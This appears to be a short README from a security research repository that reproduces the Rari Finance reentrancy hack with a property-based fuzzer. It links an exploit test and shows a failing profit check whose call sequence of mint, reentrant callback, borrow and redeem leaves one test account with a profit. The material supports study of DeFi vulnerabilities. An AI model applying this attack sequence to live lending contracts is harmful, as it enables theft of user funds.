 # Reproduction of Rari Finance hack

## References
- https://twitter.com/BlockSecTeam/status/1520350965274386433
- https://github.com/SunWeb3Sec/DeFiHackLabs/blob/c4564f5ad21783cb81969540b57b07dd12e53b2a/src/test/Rari_exp.t.sol

## Result
```
testProfit(): failed!💥
  Call sequence:
    setReentrancyEnabled(true)
    mint(5,10089325332519370949262917519849428342404732088146691233195543578618300570336)
    setReentrancyCallback(4)
    borrow(2,1164710473815707741)
    redeem(2,995200615491)
    testProfit()

Event sequence:
    Panic(1): Using assert
    Debug(«account0Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account1Profit», 1002263350696681541) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account2Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72

```
